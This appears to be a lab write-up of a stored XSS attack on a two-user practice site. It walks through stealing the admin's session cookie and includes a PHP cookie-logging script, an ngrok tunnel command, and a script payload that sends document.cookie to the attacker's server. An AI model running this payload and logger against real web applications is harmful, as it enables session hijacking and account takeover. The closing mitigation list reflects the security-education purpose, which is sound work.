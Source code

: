 We are giving a website with 2 users

**_A normal user page :_**


![](https://i.imgur.com/SeBIL1f.png)



**_An admin page_**



![](https://i.imgur.com/xcjIfUR.png)


**The task here is to steal the Admin cookie via stored xss, so we can automatically be logged in as admin**

## **Understanding the flow**


- Starting with a basic XSS payload i wanted to understand the flow of this application, so i sent our payload to the **Admin** via the support ticket page of the normal user

![](https://i.imgur.com/THMNNRs.png)

- Navigating to the admin page and refreshing it, we truly have stored XSS

![](https://i.imgur.com/0mXRLZ1.png)



## **Preparing our Exploit**


- First of all since we will be using **Ngrok** as our server, we need to create a Script that will take the logs of our admin and save it to a `.txt` file every time he tries to login or refresh his browser made by [@Ravid11345277](https://twitter.com/Ravid11345277). As seen below we can save this PHP code in our file system with the extension `.php`

```PHP
<?php

$ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
$ua=$_SERVER['HTTP_USER_AGENT'];


$fp=fopen('cookies.txt' , 'a+');

fwrite($fp, $ip.' '.$ua."\n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);

?>
```



- Now start up your **Ngrok** server with the following command, where the `PHP` file was saved

```bash
$ ngrok http 80
```



![](https://i.imgur.com/PNGlTEU.png)


- Navigating to the normal user page we can craft the XSS payload that will steal the **Admin** user cookies by sending them to a remote server, which in this case is the `xss.php` file we created :

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?cookie="+document.cookie;</script>
```

- But just before we do anything let confirm if our **Ngrok** server is working by copying the forwarding link and calling the `PHP` file we created then, so your link should look like this

```
https://52c8-102-89-32-48.ngrok-free.app/{filename}.php
```

![](https://i.imgur.com/klOJ6Lz.png)


> **Note :** I added the `?test` parameter so i will see if it works when i navigate to `cookies.txt`

- Booyah, Navigating to `/cookies.txt` we can see our server is up and running, **P.N :** I blocked my public IP, you should know why 😆 

![](https://i.imgur.com/snNWgvj.png)



## **Launching Our Exploit**

Since we know things are good to go, we can take our malicious XSS payload and attempt to get the **admin** cookie in `/cookies.txt`

- Copy your malicious XSS payload and make sure to replace the `NGROK-LINK-GOES-HERE` with the right **Ngrok** server link, then we can **Submit** it to the **Admin**

```js
<script> var i=new Image(); i.src="<NGROK-LINK-GOES-HERE>/xss.php?admin_cookie="+document.cookie;</script>
```

![](https://i.imgur.com/BFAUqoa.png)


- Navigating to the **Admin** page, we can refresh the page and we have `test 2` created already

![](https://i.imgur.com/YrVmwf6.png)


- Referring back to `/cookies.txt` we have our admin cookie dumped

![](https://i.imgur.com/MbMCQdE.png)

This doesn't only affect the admin user, every user cookie will automatically be dumped once there is a page refresh and we have an account takeover right there, there are various ways to prevent this kind of attacks, here are few


- **Input Validation and Sanitization**
- **Content Security Policy (CSP)**
- **Use Security Headers**
- **Web Application Firewall (WAF)**
- **Security Testing**


![](https://media3.giphy.com/media/ZEILv6a8KBDFq4KhbB/200.webp?cid=ecf05e47uctzn77s5wozeru7eu1c300knw0k72odf3eeenn8&ep=v1_gifs_search&rid=200.webp&ct=g)
